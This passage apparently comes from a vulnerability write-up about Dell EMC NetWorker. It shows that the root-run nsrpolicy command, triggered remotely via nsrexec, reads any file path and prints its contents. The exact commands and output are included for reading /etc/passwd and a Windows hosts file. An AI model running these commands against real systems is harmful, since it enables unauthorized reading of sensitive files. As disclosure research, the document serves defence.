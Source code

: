 One command that caught our eye is **nsrpolicy**:

> The  nsrpolicy  program  executes  NetWorker  backup  configuration  and activities. nsrpolicy performs the backup configuration through its three parameters: policy, workflow and action.

This command can take filenames as input, respectively:

```
nsrpolicy input-file
                 { --file_name file_name | -f file_name } [ --stop_on_error bool | -S bool ]

```

Given that nsrpolicy does not validate the received path and that it runs with root privileges, we can force it to read any file and print out the content on error:

```
[root@networker-client ~]# export RCMD="nsrpolicy input-file -f /etc/passwd"
[root@networker-client ~]# nsrexec -c 192.168.121.238 2>&1 | grep 'Command from file:'
121415:nsrpolicy: Command from file: root:x:0:0:root:/root:/bin/bash
121415:nsrpolicy: Command from file: bin:x:1:1:bin:/bin:/sbin/nologin
121415:nsrpolicy: Command from file: daemon:x:2:2:daemon:/sbin:/sbin/nologin
121415:nsrpolicy: Command from file: adm:x:3:4:adm:/var/adm:/sbin/nologin
121415:nsrpolicy: Command from file: lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
121415:nsrpolicy: Command from file: sync:x:5:0:sync:/sbin:/bin/sync
121415:nsrpolicy: Command from file: shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
121415:nsrpolicy: Command from file: halt:x:7:0:halt:/sbin:/sbin/halt
121415:nsrpolicy: Command from file: mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
121415:nsrpolicy: Command from file: operator:x:11:0:operator:/root:/sbin/nologin
121415:nsrpolicy: Command from file: games:x:12:100:games:/usr/games:/sbin/nologin
121415:nsrpolicy: Command from file: ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
121415:nsrpolicy: Command from file: nobody:x:99:99:Nobody:/:/sbin/nologin
121415:nsrpolicy: Command from file: systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
121415:nsrpolicy: Command from file: dbus:x:81:81:System message bus:/:/sbin/nologin
121415:nsrpolicy: Command from file: polkitd:x:999:998:User for polkitd:/:/sbin/nologin
121415:nsrpolicy: Command from file: rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
121415:nsrpolicy: Command from file: tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
121415:nsrpolicy: Command from file: rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
121415:nsrpolicy: Command from file: nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
121415:nsrpolicy: Command from file: sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
121415:nsrpolicy: Command from file: postfix:x:89:89::/var/spool/postfix:/sbin/nologin
121415:nsrpolicy: Command from file: chrony:x:998:995::/var/lib/chrony:/sbin/nologin
121415:nsrpolicy: Command from file: vagrant:x:1000:1000:vagrant:/home/vagrant:/bin/bash
121415:nsrpolicy: Command from file: nsrtomcat:x:1001:1001::/nsr/authc:/sbin/nologin
121415:nsrpolicy: Command from file: tcpdump:x:72:72::/:/sbin/nologin
```

Windows hosts are also affected, here we demonstrate it by reading the remote system hosts file:

```
[root@networker-client vagrant]# export RCMD='nsrpolicy input-file -f "C:\\Windows\\System32\\drivers\\etc\\hosts"'
[root@networker-client vagrant]# nsrexec -c 192.168.121.183 2>&1 | grep 'Command from file'
121415:nsrpolicy: Command from file: 
121415:nsrpolicy: Command from file: 192.168.121.92	networker-client1
121415:nsrpolicy: Command from file: 192.168.121.50	networker-client
121415:nsrpolicy: Command from file: 192.168.121.238	networker-server
--snip--
```
